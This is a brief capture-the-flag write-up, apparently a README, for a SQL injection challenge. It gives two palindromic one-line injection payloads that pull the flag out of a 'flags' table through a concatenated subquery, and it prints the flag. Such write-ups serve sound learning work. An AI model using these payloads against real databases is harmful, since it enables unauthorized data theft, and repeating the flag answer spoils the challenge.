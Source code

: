 ### Chall Desc :
Founded in 2022 by me.

### File attached :
[server.py](server.py)
[app.py](app.py)

### Soln :

It is a one-liner payload question using SQl.

Payload : %'||(SELECT flag FROM flags)||'%');---;)'%'||)sgalf MORF galf TCELES(||'%
It will work fine without the percentages as well : `' || (select flag from flags) ); -- ;) )sgalf morf galf tceles( || '`

#### THE FLAG : hope{ecid_gnivlovni_semordnilap_fo_kniht_ton_dluoc}

Thank you
